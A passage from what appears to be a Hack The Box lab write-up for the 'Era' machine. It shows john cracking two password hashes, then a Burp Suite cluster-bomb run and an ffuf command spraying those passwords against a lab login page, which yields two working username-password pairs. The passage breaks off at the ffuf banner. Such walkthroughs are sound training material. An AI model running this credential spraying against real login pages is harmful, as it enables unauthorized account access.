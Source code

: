 let's use `john` to crack the password. after crack, we get these results:
```bash
┌──(agonen㉿kali)-[~/htb/Era]
└─$ john hashes.txt --show
?:america
?:mustang

2 password hashes cracked, 4 left
```

So, two passwords got cracked, but we don't know who's password is this. Let's use BurpSuite to spray the passwords all over the users. we'll use cluster bomb mode:

![burp suite](image-3.png)

We can see that two attempts gave `302`, which means successful login:
```bash
yuri \ mustang
eric \ america
```

![results burp spraying attack](image-4.png)

we got have done the same thing using `ffuf`, with two payloads:
```bash
┌──(agonen㉿kali)-[~/htb/Era]
└─$ ffuf -w user_only.txt:USER -w crack_password.txt:PASS -u http://file.era.htb/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" \
-d "submitted=true&username=USER&password=PASS" -mc 302

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
```